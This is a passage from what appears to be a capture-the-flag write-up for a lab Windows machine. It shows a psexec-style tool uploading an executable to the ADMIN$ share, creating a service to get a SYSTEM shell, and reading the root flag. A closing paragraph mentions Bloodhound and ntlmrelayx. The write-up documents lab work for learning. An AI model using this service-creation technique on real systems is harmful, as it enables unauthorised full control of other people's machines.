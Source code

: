     [*] Requesting shares on 10.10.10.161.....
    [*] Found writable share ADMIN$
    [*] Uploading file LgnQUJxD.exe
    [*] Opening SVCManager on 10.10.10.161.....
    [*] Creating service evKq on 10.10.10.161.....
    [*] Starting service evKq.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Mirosoft Corporation. All rights reserved.

    C:\Windows\system32>cd ..

    C:\Windows>cd ..

    C:\>cd Users

    C:\Users>cd Administrator

    C:\Users\Administrator>cd Desktop

    C:\Users\Administrator\Desktop>type root.txt
    f04815<redacted>

# Wrapping up

What a journey. This box was classified as easy but probably needed a medium
classification. WinRM is so *finicky*. The root part was interesting as it
allowed us to play with Bloodhound and ntlmrelayx which doesn't happen a lot
outside of client environments.

